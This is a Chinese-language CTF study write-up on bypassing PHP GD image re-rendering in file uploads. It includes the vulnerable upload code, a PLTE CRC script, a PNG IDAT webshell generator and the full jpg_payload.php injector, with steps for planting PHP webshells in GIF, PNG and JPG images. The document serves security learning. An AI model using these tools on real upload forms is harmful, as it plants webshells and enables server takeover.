

0x01 前言
这篇文章是在做CTF新生赛所遇到的，之前虽然做靶场的时候做个二次渲染，但从此次做题效果来看，没啥卵用（之前也没好好学，只是简单了解而已）这次借着靶场环境还在，赶紧学习一波知识！！！
0x02 二次渲染
题目源码如下：
<?php
error_reporting(0);
session_start();
$user_dir = 'uploads/'.md5($_SERVER['REMOTE_ADDR']).'/';
if (!file_exists($user_dir)) {
mkdir($user_dir);
}
switch ($_FILES['file']['type']) {
case "image/gif":
$source = imagecreatefromgif($_FILES['file']['tmp_name']);
break;
case "image/jpeg":
$source = imagecreatefromjpeg($_FILES['file']['tmp_name']);
break;
case "image/png":
$source = imagecreatefrompng($_FILES['file']['tmp_name']);
break;
default:
die('Invalid file type!');
}
$ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
$filepath = $user_dir.md5($_FILES['file']['name']).'.'.$ext;
switch ($_FILES['file']['type']) {
case "image/gif":
imagegif($source, $filepath);
break;
case "image/jpeg":
imagejpeg($source, $filepath);
break;
case "image/png":
imagepng($source, $filepath);
break;
default:
die('Invalid file type!');
}
echo 'Upload avatar success! Path: '.$filepath;
$_SESSION['avatar'] = $filepath;
?>了解一波关键函数：
imagecreatefromgif()：
创建一块画布，并从 GIF 文件或 URL 地址载入一副图像
imagecreatefromjpeg()：
创建一块画布，并从 JPEG 文件或 URL 地址载入一副图像
imagecreatefrompng()：
创建一块画布，并从 PNG 文件或 URL 地址载入一副图像
imagecreatefromwbmp()：
创建一块画布，并从 WBMP 文件或 URL 地址载入一副图像
imagecreatefromstring()：
创建一块画布，并从字符串中的图像流新建一副图像imagecreatefromjpeg二次渲染它相当于是把原本属于图像数据的部分抓了出来，再用自己的API 或函数进行重新渲染在这个过程中非图
像数据的部分直接就隔离开了，这时候得去找图片经过GD库转化后没有改变的部分，再将未改变的部分修改为相应的php代码。
而其余的像png，gif的函数也是类似。
我们接下来先从最容易利用的图像开始：
2.1 利用GIF

如图我们现在git图像后面添加一句话木马上传
接下来我们访问该连接去下载图片，看看上传前后图片的变化

可以看到此时我们的木马没了。。。接下来我们使用编辑器打开看看哪些区域没有发生变化

这里这个编辑器也没咋用过，不过我认为这里的匹配指的就是A和B图片相同的地方，那我们直接在此处添加一句话木马看看

如下图在此上传成功

这里也是搞错了，忘记上传的时候需要修改后缀了（不然服务器如何将其当做php文件解析呢？）上传成功后我们访问文件路径
如下图成功上传，不过这里似乎是有坑的，在此之前上传了几个gif，发现似乎修改的地方不恰当，最终服务器在解析其为php时会解析错误，所以需要重新搞几次。

这里也没细究原理，一般遇到这种类型的题目，如果选择上传gif的话只需要比较上传前后图片未发生变化的地方，添加一句话木马即可。
2.2 上传PNG
png的二次渲染的绕过并不能像gif那样简单
2.2.1 png文件组成
png图片由3个以上的数据块组成.
PNG定义了两种类型的数据块，一种是称为关键数据块(critical chunk)，这是标准的数据块，另一种叫做辅助数据块(ancillary chunks)，这是可选的数据块。关键数据块定义了3个标准数据块(IHDR,IDAT, IEND)，每个PNG文件都必须包含它们.
数据块结构

CRC(cyclic redundancy check)域中的值是对Chunk Type Code域和Chunk Data域中的数据进行计算得到的。CRC具体算法定义在ISO 3309和ITU-T V.42中，其值按下面的CRC码生成多项式进行计算：
x32+x26+x23+x22+x16+x12+x11+x10+x8+x7+x5+x4+x2+x+1 //咱也看不懂。。。。2.2.2 分析数据块
IHDR
数据块IHDR(header chunk)：它包含有PNG文件中存储的图像数据的基本信息，并要作为第一个数据块出现在PNG数据流中，而且一个PNG数据流中只能有一个文件头数据块。
文件头数据块由13字节组成，它的格式如下图所示。

PLTE
调色板PLTE数据块是辅助数据块,对于索引图像，调色板信息是必须的，调色板的颜色索引从0开始编号，然后是1、2……，调色板的颜色数不能超过色深中规定的颜色数（如图像色深为4的时候，调色板中的颜色数不可以超过2^4=16），否则，这将导致PNG图像不合法。
IDAT
图像数据块IDAT(image data chunk)：它存储实际的数据，在数据流中可包含多个连续顺序的图像数据块。
IDAT存放着图像真正的数据信息，因此，如果能够了解IDAT的结构，我们就可以很方便的生成PNG图像
IEND
图像结束数据IEND(image trailer chunk)：它用来标记PNG文件或者数据流已经结束，并且必须要放在文件的尾部。
如果我们仔细观察PNG文件，我们会发现，文件的结尾12个字符看起来总应该是这样的：
00 00 00 00 49 45 4E 44 AE 42 60 82
2.2.3 写入php代码
在网上找到了两种方式来制作绕过二次渲染的png木马
写入PLTE数据块
php底层在对PLTE数据块验证的时候,主要进行了CRC校验.所以可以在chunk data域插入php代码,然后重新计算相应的crc值并修改即可.
这种方式只针对索引彩色图像的png图片才有效,在选取png图片时可根据IHDR数据块的color type辨别.03为索引彩色图像.
在PLTE数据块写入php代码–这里借用师傅的图片了
深有感悟，找了几张png图片发现都没有PLTE数据块，也不想找了。。。。
计算PLTE数据块的CRC，脚本如下
import binascii
import re
png = open(r'2.png','rb')
a = png.read()
png.close()
#通过 binascii.b2a_hex(a) 将文件内容 a 转换为十六进制字符串，并将结果存储在 hexstr 变量中。
hexstr = binascii.b2a_hex(a)
#使用正则表达式 re.findall 从 hexstr 中查找 "504c5445"（即 PLTE 标识）和 "49444154"（即 IDAT 标识）之间的内容。
''' PLTE crc '''
data = '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
#它使用 binascii.crc32 函数对 data[:-16] 进行 CRC32 校验和计算。
crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
print hex(crc)修改CRC值
验证，将修改后的png图片上传后,下载到本地打开
写入IDAT数据块
这里有国外大牛写的脚本,直接拿来运行即可.
<?php
//创建一个名为 $p 的数组，其中包含了一系列十六进制颜色值。这些颜色值按照 RGB 顺序排列，每三个元素代表一个像素的颜色。
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
0x66, 0x44, 0x50, 0x33);
//使用 imagecreatetruecolor 函数创建一个 32x32 像素的真彩色图像对象，并将其分配给 $img 变量。
$img = imagecreatetruecolor(32, 32);
//使用 for 循环遍历数组 $p，每次迭代处理三个数组元素，即一个像素的 RGB 值。
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
//每次迭代中，从数组中提取红色（R）、绿色（G）、和蓝色（B）的颜色值，并使用 imagecolorallocate 函数创建一个颜色标识符。
$color = imagecolorallocate($img, $r, $g, $b);
//使用 imagesetpixel 函数在图像的第一行（$y / 3 为像素的横坐标，0 为纵坐标）设置像素颜色。
imagesetpixel($img, round($y / 3), 0, $color);
}
//使用 imagepng 函数将生成的图像保存为名为 "1.png" 的文件。
imagepng($img,'./1.png');
?>运行后得到1.png.上传后下载到本地打开如下图–大牛就是牛啊，我都不知道这木马如何写上去的。。。

这种方法在做题的时候浮现过了，此处就不在赘述了
2.3 上传JPG
这里也采用国外大牛编写的脚本jpg_payload.php
<?php
/*
The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
It is necessary that the size and quality of the initial image are the same as those of the processed image.
1) Upload an arbitrary image via secured files upload script
2) Save the processed image and launch:
jpg_payload.php <jpg_name.jpg>
In case of successful injection you will get a specially crafted image, which should be uploaded again.
Since the most straightforward injection method is used, the following problems can occur:
1) After the second processing the injected data may become partially corrupted.
2) The jpg_payload.php script outputs "Something's wrong".
If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
Sergey Bobrov @Black2Fan.
See also:
https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
*/
$miniPayload = "<?=phpinfo();?>";
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
die('php-gd is not installed');
}
if(!isset($argv[1])) {
die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
$nullbytePayloadSize = $pad;
$dis = new DataInputStream($argv[1]);
$outStream = file_get_contents($argv[1]);
$extraBytes = 0;
$correctImage = TRUE;
if($dis->readShort() != 0xFFD8) {
die('Incorrect SOI marker');
}
while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
$marker = $dis->readByte();
$size = $dis->readShort() - 2;
$dis->skip($size);
if($marker === 0xDA) {
$startPos = $dis->seek();
$outStreamTmp =
substr($outStream, 0, $startPos) .
$miniPayload .
str_repeat("\0",$nullbytePayloadSize) .
substr($outStream, $startPos);
checkImage('_'.$argv[1], $outStreamTmp, TRUE);
if($extraBytes !== 0) {
while((!$dis->eof())) {
if($dis->readByte() === 0xFF) {
if($dis->readByte !== 0x00) {
break;
}
}
}
$stopPos = $dis->seek() - 2;
$imageStreamSize = $stopPos - $startPos;
$outStream =
substr($outStream, 0, $startPos) .
$miniPayload .
substr(
str_repeat("\0",$nullbytePayloadSize).
substr($outStream, $startPos, $imageStreamSize),
0,
$nullbytePayloadSize+$imageStreamSize-$extraBytes) .
substr($outStream, $stopPos);
} elseif($correctImage) {
$outStream = $outStreamTmp;
} else {
break;
}
if(checkImage('payload_'.$argv[1], $outStream)) {
die('Success!');
} else {
break;
}
}
}
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
global $correctImage;
file_put_contents($filename, $data);
$correctImage = TRUE;
imagecreatefromjpeg($filename);
if($unlink)
unlink($filename);
return $correctImage;
}
function custom_error_handler($errno, $errstr, $errfile, $errline) {
global $extraBytes, $correctImage;
$correctImage = FALSE;
if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
if(isset($m[1])) {
$extraBytes = (int)$m[1];
}
}
}
class DataInputStream {
private $binData;
private $order;
private $size;
public function __construct($filename, $order = false, $fromString = false) {
$this->binData = '';
$this->order = $order;
if(!$fromString) {
if(!file_exists($filename) || !is_file($filename))
die('File not exists ['.$filename.']');
$this->binData = file_get_contents($filename);
} else {
$this->binData = $filename;
}
$this->size = strlen($this->binData);
}
public function seek() {
return ($this->size - strlen($this->binData));
}
public function skip($skip) {
$this->binData = substr($this->binData, $skip);
}
public function readByte() {
if($this->eof()) {
die('End Of File');
}
$byte = substr($this->binData, 0, 1);
$this->binData = substr($this->binData, 1);
return ord($byte);
}
public function readShort() {
if(strlen($this->binData) < 2) {
die('End Of File');
}
$short = substr($this->binData, 0, 2);
$this->binData = substr($this->binData, 2);
if($this->order) {
$short = (ord($short[1]) << 8) + ord($short[0]);
} else {
$short = (ord($short[0]) << 8) + ord($short[1]);
}
return $short;
}
public function eof() {
return !$this->binData||(strlen($this->binData) === 0);
}
}
?>使用方法：随便找一个jpg图片，先上传至服务器然后再下载到本地保存为1.jpg.
插入php代码
使用脚本处理1.jpg,命令php jpg_payload.php 1.jpg
这里尝试了好几次，似乎只能在终端上运行，而且命令必须一模一样，也就是php文件和1.jpg和php.exe需要在同一目录下
使用16进制编辑器打开,就可以看到插入的php代码
不过这里困惑的是执行完命令产生的图片中插入的代码不全，这里如上图之前是没有post的，只存在
这里的post是我之后填上去的，不过测试过后似乎没影响
上传图片马
将生成的payload_1.jpg上传.
这里也是成功上传解析。
这里有师傅提醒：需要注意的是,有一些jpg图片不能被处理,所以要多尝试一些jpg图片.
接下来就开始学习mysql中的预编译吧，浅浅了解一下。
0x03 参考文章
upload-labs之pass 16详细分析 --非常详细